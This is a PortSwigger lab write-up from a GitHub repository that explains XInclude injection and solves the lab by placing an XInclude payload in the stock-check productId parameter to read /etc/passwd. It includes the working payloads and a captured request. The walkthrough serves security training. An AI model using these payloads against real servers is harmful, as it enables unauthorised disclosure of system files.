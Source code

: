 # Lab-07 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e00f020e-d056-42eb-9590-14b63c467f86)

## Overview :

#### XInclude attacks
 
 Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, y**ou cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element**. However, you might be able to use XInclude.

**XInclude is a part of the XML specification that allows an XML document to be built from sub-documents**. You can place an XInclude attack within any data value in an XML document, so the _attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document_.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
> This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the `xi:include element. Next, it uses that element to parse and
> include the `/etc/hostname` file in the XML document


## Solution :

Clicking on checkstock feature sends the following POST request.

```xml
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

>  Usually if an API accepts JSON data, then most probably it will also accept xml data too. We can change the content type by using `content-type-converter`
> ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bec64300-a7da-474c-942a-ac9b0682141d)

In this lab sending JSON data didn't work.

Here we can't see any XML data being sent to the server but the lab description says that _the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed._

There is no XML data that is visibly sent but if we try to insert `%26entity;`(`%26` is url-encoded form of `&`, else it will consider value after & as another url parameter) , we get an XML error.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa202ba5-7f2c-46a0-a054-227914e89170)


Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the  **XInclude** tag.

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks

**Payload -**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
>The `xmlns:xi` declaration defines the XML namespace xi as "http://www.w3.org/2001/XInclude." This namespace is used to indicate that the `<xi:include>` element is part of the XInclude
>specification.
>
> The `<xi:include>` element specifies the inclusion of an external resource. The `parse="text"` attribute indicates that the included resource should be parsed as plain text. The `href="file:///e
> /passwd"` attribute specifies the location of the file to be included, in this case, `/etc/passwd` on the local filesystem.

So we enter this payload in the `productID` parameter to retreive the `/etc/passwd` file.

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We have now retreived the passwd file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70de11c4-d54e-44bc-862c-28e1d32d2da8)


The lab is solved .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20224687-bca9-4087-b24b-6ca41c85bf84)



